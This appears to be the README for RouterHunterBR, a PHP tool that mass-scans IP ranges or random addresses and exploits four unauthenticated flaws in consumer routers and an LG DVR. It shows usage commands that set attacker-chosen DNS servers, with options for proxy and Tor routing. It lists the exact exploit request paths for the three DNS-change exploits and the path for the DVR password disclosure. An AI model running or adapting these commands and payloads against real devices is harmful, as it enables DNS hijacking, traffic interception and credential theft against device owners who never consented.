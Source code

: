 # RouterHunterBR
TOOL - Unauthenticated Remote DNS change/ users & passwords.

 * Script exploit developed by INURL - BRAZIL
 * Script Name: SCANNER RouterHunterBR 1.0
 * TIPE: TOOL - Unauthenticated Remote DNS change/ users & passwords 
 * AUTOR*: Cleiton Pinheiro / NICK: GoogleINURL
 * AUTOR: Jhonathan davi / NICK: Jhoon
 * EMAIL*: inurllbr@gmail.com
 * Blog*: http://blog.inurl.com.br
 * Twitter*: https://twitter.com/googleinurl
 * Fanpage*: https://fb.com/InurlBrasil
 * GIT*: https://github.com/googleinurl
 * PASTEBIN*: http://pastebin.com/u/googleinurl
 * YOUTUBE* https://www.youtube.com/channel/UCFP-WEzs5Ikdqw0HBLImGGA
 * PACKETSTORMSECURITY:* http://packetstormsecurity.com/user/googleinurl/


- Description:
------
  The script explores four vulnerabilities in routers
 * 01 - Shuttle Tech ADSL Modem-Router 915 WM / Unauthenticated Remote DNS Change Exploit

  reference: http://www.exploit-db.com/exploits/35995/

 * 02 - D-Link DSL-2740R / Unauthenticated Remote DNS Change Exploit

  reference: http://www.exploit-db.com/exploits/35917/

 * 03 - LG DVR LE6016D / Unauthenticated users/passwords disclosure exploitit

  reference: http://www.exploit-db.com/exploits/36014/
  
 * 04 - D-Link DSL-2640B Unauthenticated Remote DNS Change Exploitx
  
  reference: http://1337day.com/exploit/23302/ 

- Execute:
------
```
  Simple search:   php RouterHunterBR.php --range '177.100.255.1-20' --dns1  8.8.8.8 --dns2 8.8.4.4 --output result.txt

  Set IPS random:  php RouterHunterBR.php --rand --limit-ip 200 --dns1  8.8.8.8 --dns2 8.8.4.4 --output result.txt
  
  Set source file: php RouterHunterBR.php --file ips.txt --dns1  8.8.8.8 --dns2 8.8.4.4 --output result.txt
  
  Set proxy:       php RouterHunterBR.php --range '177.100.255.1-20' --dns1  8.8.8.8 --dns2 8.8.4.4 --output result.txt --proxy 'localhost:8118'
  
  Proxy format:
   --proxy 'localhost:8118'
   --proxy 'socks5://googleinurl@localhost:9050'
   --proxy 'http://admin:12334@172.16.0.90:8080'
  
```

- Dependencies:
------
```
  sudo apt-get install curl libcurl3 libcurl3-dev php5 php5-cli php5-curl
```
- EDITING TO ADD NEW EXPLOITS GETS:
------
```
TO DEFINE MORE EXPLOITS GET:
EX: $params['exploit_model']['model_name'] = 'file_exploit.php';
$params['exploit_model']['model_001'] = '/file001CGI.cgi';
$params['exploit_model']['model_002'] = '/file001php.php';
$params['exploit_model']['model_003'] = '/file001.html';

#DEFINITION OF EXPLOITS
LINE 99 $params['exploit_model']['Shuttle_Tech_ADSL_Modem_Router_915_WM'] = "/dnscfg.cgi?dnsPrimary={$params['dns1']}&dnsSecondary={$params['dns2']}&dnsDynamic=0&dnsRefresh=1";
LINE 100 $params['exploit_model']['D_Link_DSL_2740R'] = "/dns_1?Enable_DNSFollowing=1&dnsPrimary={$params['dns1']}&dnsSecondary={$params['dns2']}";
LINE 101 $params['exploit_model']['D_Link_DSL_2640B'] = "/ddnsmngr.cmd?action=apply&service=0&enbl=0&dnsPrimary={$params['dns1']}&dnsSecondary={$params['dns2']}&dnsDynamic=0&dnsRefresh=1&dns6Type=DHCP";
LINE 102 $params['exploit_model']['LG_DVR_LE6016D'] = "/dvr/wwwroot/user.cgi";

```
